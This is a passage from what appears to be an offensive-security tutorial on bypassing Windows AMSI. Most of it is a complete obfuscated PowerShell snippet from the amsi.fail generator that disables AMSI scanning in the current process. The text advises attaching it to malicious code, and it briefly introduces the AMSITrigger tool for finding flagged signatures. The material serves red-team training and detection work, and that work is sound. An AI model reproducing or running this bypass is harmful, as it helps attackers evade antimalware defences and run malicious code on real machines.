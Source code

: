 The first automation tool we will look at is [amsi.fail](http://amsi.fail)

[amsi.fail](http://amsi.fail) will compile and generate a  PowerShell bypass from a collection of known bypasses. From amsi.fail,  "AMSI.fail generates obfuscated PowerShell snippets that break or  disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before obfuscating. Every  snippet is obfuscated at runtime/request so that no generated output  share the same signatures."

Below is an example of an obfuscated PowerShell snippet from amsi.fail

```powershell
$d=$null;$qcgcjblv=[$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).Runtime.InteropServices.Marshal]::AllocHGlobal((9076+7561-7561));$pkgzwpahfwntq="+('lwbj'+'cymh').NORmaliZe([CHar]([byTe]0x46)+[char](111)+[ChAR]([ByTE]0x72)+[chaR](109*73/73)+[ChAR]([ByTE]0x44)) -replace [char]([bytE]0x5c)+[Char](112*106/106)+[char]([bYte]0x7b)+[chAR]([BYtE]0x4d)+[CHAR](110+8-8)+[CHAr]([BytE]0x7d)";[Threading.Thread]::Sleep(1595);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$(('àmsí'+'Sess'+'íón').norMALiZE([CHaR](70*49/49)+[chAr](87+24)+[ChaR]([bytE]0x72)+[chAr](109)+[chAR](68+43-43)) -replace [CHAr](92)+[chAr]([byTe]0x70)+[CHAr]([bYTE]0x7b)+[cHAr](77*71/71)+[CHar]([bYtE]0x6e)+[char](125+49-49))", "NonPublic,Static").SetValue($d, $null);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$([chAR]([byTe]0x61)+[Char](109+52-52)+[cHar](46+69)+[CHar]([byTe]0x69)+[CHAR]([BYTe]0x43)+[Char]([ByTe]0x6f)+[chAR](110)+[chaR](116*47/47)+[cHar](101)+[CHAR]([bYte]0x78)+[CHaR]([ByTE]0x74))", "NonPublic,Static").SetValue($null, [IntPtr]$qcgcjblv);
```

You can attach this bypass at the beginning of your malicious code as with previous bypasses or run it in the same session before executing  malicious code.

------

[AMSITrigger](https://github.com/RythmStick/AMSITrigger)  allows attackers to automatically identify strings that are flagging  signatures to modify and break them. This method of bypassing AMSI is  more consistent than others because you are making the file itself  clean.

The syntax for using amsitrigger is relatively straightforward; you  need to specify the file or URL and what format to scan the file. Below  is an example of running amsitrigger.

